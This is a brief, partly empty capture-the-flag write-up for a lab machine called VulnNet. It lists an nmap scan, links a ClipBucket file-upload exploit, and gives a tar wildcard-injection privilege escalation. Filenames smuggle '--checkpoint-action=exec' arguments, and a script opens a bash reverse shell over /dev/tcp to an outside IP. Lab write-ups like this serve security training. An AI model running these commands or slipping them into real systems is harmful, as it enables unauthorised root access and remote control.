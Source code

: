 # VulnNet

##### Written: 

##### IP address: 10.10.69.110

##### Difficulty: Medium

---

### [Setup]

Before doing anything, let's add the IP address into our **/etc/hosts** file:

<img style="float: left;" src="screenshots/screenshot1.png">

---

### [ What is the user flag? (user.txt)  ]

Let's first conduct a full**Nmap** scan on the target machine.

```
sudo nmap -sC -sV -vv -T4 -p- 10.10.69.110
```

**Results:**

```
```





https://beautifier.io/

https://packetstormsecurity.com/files/146913/ClipBucket-beats_uploader-Unauthenticated-Arbitrary-File-Upload.html









### [ What is the root flag? (root.txt) ]



```
touch -- --checkpoint=1
echo $'#!/bin/bash\nbash -i >& /dev/tcp/10.4.6.205/4444 0>&1' > shell.sh
touch -- --checkpoint-action=exec=bash\ shell.sh
```
